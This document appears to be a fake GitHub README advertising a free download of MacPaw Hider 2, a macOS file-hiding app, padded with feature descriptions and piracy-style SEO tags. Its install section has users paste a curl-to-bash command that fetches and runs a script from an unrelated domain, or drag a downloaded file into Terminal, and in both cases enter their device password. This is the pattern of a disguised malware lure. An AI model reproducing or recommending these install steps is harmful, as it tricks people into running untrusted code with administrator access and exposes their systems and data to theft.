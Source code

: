 # 🔐 Macpaw Hider 2 – Free Download

![Hider 2 Interface](https://cdn.lifehacker.ru/wp-content/uploads/2014/04/osx-hider2-image-02.jpg)

## 📥 Download Hider 2 for Mac

[![🔓 Download Hider 2 for Free](https://img.shields.io/badge/Download%20Hider%202%20for%20Mac-Free%20Now-blue?style=for-the-badge&logo=apple)](https://hider-2-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🔍 What is Hider 2?

**Hider 2** by MacPaw is an advanced and user-friendly tool for **hiding and encrypting sensitive files and folders on macOS**. Designed to offer bulletproof privacy, it allows users to secure important documents, personal files, or confidential business data with military-grade AES-256 encryption. 

With just a drag and drop, your files are instantly encrypted and hidden from prying eyes. Hider 2 keeps your files organized in a simple sidebar interface and automatically locks your secure vault when idle or closed, ensuring your privacy remains intact at all times.

Perfect for freelancers, professionals, and anyone who values data security, **Hider 2 makes privacy simple, elegant, and foolproof**.

---

![Hider 2 Encrypted Files](https://cdnp0.stackassets.com/f1e8180749263252fe74105c55755164c0c371b3/store/f88f4bce7e40462f91c208243109b44525f3794cd214e2309d41c2b6dd07/product_21922_product_shots1_image.jpg)

---

## 🔐 Key Features

- 🔒 **AES-256 Encryption** – Top-tier protection for files and folders.
- 📂 **Instant Hide/Unhide** – One-click visibility control.
- 🧰 **Vaults** – Organize encrypted data into secure vaults.
- 💨 **Auto-Lock** – Automatically locks vaults after inactivity.
- 🎯 **Drag-and-Drop Simplicity** – Intuitive interface for quick security.
- 🖥️ **Native macOS Support** – Seamlessly integrated into your Mac workflow.
- 🧼 **System Cleaner Integration** – Easily remove file traces from disk.
- 🔑 **Password Protection** – Keep files safe with one master password.

---

## 🤔 Why Use Hider 2?

Unlike other encryption tools, **Hider 2 is built with simplicity and elegance in mind**. You don’t need to be a tech expert to protect your files. With a clean UI and smooth integration into macOS, it turns the often complex process of data encryption into a seamless experience.

Whether you're a journalist protecting sources, a developer safeguarding source code, or simply a Mac user who values privacy, Hider 2 is a **trusted and powerful** solution to keep your files safe and hidden.

---

## ⚙️ How to Install

1. Go to the [official Hider 2 page](https://macpaw.com/hider).
2. Download the latest version for macOS.
3. Drag it into the Applications folder.
4. Open Hider 2, set your master password, and start protecting your data!

---

## 🏷️ Tags

hider 2, hider 2 mac, hider 2 download, hider 2 mac download, hider 2 mac free download, macpaw hider, macpaw hider 2, macpaw hider 2 activation code, hider 2 free download
